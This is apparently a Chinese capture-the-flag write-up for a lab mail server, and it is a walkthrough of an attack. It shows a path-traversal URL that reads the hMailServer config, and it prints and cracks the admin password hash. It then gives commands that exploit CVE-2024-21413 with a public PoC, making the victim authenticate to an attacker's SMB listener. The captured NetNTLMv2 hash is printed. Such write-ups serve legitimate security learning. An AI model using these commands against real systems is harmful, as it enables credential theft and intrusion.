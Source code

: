 dirsearch 扫出 `/assets/` 和 `/download.php`。
`/assets/` 存着一些图片，`/download.php` 可以任意文件读。
由前面扫到的端口可知这是一个 hMailServer，所以可以直接读 `hMailServer.INI`。
`?file=../../../../../../../../../Program%20Files%20(x86)/hMailServer/Bin/hMailServer.INI` 读出如下内容：

```ini
[Directories]
ProgramFolder=C:\Program Files (x86)\hMailServer
DatabaseFolder=C:\Program Files (x86)\hMailServer\Database
DataFolder=C:\Program Files (x86)\hMailServer\Data
LogFolder=C:\Program Files (x86)\hMailServer\Logs
TempFolder=C:\Program Files (x86)\hMailServer\Temp
EventFolder=C:\Program Files (x86)\hMailServer\Events
[GUILanguages]
ValidLanguages=english,swedish
[Security]
AdministratorPassword=841bb5acfa6779ae432fd7a4e6600ba7
[Database]
Type=MSSQLCE
Username=
Password=0a9f8ad8bf896b501dde74f08efd7e4c
PasswordEncryption=1
Port=0
Server=
Database=hMailServer
Internal=1
```

admin 的密码 hash 为 841bb5acfa6779ae432fd7a4e6600ba7，用 hash-identifier 判断是 MD5，用在线网站解密得到 `homenetworkingadministrator`。

md5 在线解密的网站有 [Hashes](https://hashes.com/zh/decrypt/hash)，[crackstation](https://crackstation.net/) 等。

用 CVE-2024-21413 打，参考[这篇文章](https://www.freebuf.com/vuls/396256.html)，先启动 NTLM 监听

```bash
sudo impacket-smbserver -smb2support -ip 0.0.0.0 test /tmp
```

再用 [PoC](https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability) 打

```bash
python3 CVE-2024-21413.py --server mailing.htb --port 587 --username administrator@mailing.htb --password homenetworkingadministrator --sender administrator@mailing.htb --recipient maya@mailing.htb --url '\\10.10.14.20\test' --subject Hi
```

拿到 maya 的 NTLM hash

```plain
maya::MAILING:aaaaaaaaaaaaaaaa:21bf11591531fc6d3736359f495482b4:0101000000000000804c7084b5b1da013e5cd1bc6af81a5f000000000100100057005a00720067005a00460043005a000300100057005a00720067005a00460043005a00020010004f007100510070005500580055006800040010004f00710051007000550058005500680007000800804c7084b5b1da0106000400020000000800300030000000000000000000000000200000146f2fe8ad5fb58c04447d1f84d31aa0faae084bb712011964e5eb9820bf33200a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00320030000000000000000000
```
